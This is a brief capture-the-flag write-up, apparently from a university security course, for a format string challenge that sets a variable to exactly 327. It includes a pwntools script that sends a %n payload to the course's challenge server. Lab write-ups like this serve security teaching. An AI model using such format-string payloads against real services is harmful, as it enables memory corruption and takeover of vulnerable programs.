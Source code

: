 # Challenge `Write Specific Value` writeup

- Vulnerability:
  - Format string
- Where: Where is the vulnerability present
  - `mustard.stt.rnl.tecnico.ulisboa.pt` on port 23194
- Impact:
  - Allows user to alter local variable

## Steps to reproduce

1. Using `gdb` we can verify that `target` is stored in memory address `0x804c040`
2. On this version, the variable must be exactly 327, so the input string needs to changed (while compensating for the 4 bytes written previously)

The code used was the following:

```py
from pwn import *

s = remote("mustard.stt.rnl.tecnico.ulisboa.pt", 23194, timeout=100)
s.sendline(b"\x40\xc0\x04\x08%323x%7$n")
print(s.recvall())
```